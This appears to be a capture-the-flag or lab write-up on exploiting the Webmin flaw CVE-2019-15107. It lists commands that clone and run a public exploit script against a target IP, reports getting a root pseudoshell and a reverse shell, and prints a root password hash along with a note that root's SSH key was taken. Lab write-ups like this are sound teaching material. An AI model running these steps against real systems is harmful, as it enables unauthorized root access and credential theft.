



# website exploitation

Located Github repo with exploit: https://github.com/MuirlandOracle/CVE-2019-15107



git clone'd it to my attackbox using:

```bash
git clone https://github.com/MuirlandOracle/CVE-2019-15107
```

Install requirements:

```bash
python3 -m pip install -r requirements.txt
```

Run script (make sure it is executable):

```bash
./CVE-2019-15107.py 10.200.187.200
```



Webserver is running as root.

This is a pseudoshell, meaning we don't have full features of a regular shell.

Entered in `shell` in the pseudoshell, followed instructions to generate a shell. Reverse shell was generated successfully.



Able to retrieve some information, such as:
* root user's hash: `root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0`
* root user's private SSH key (id_rsa)
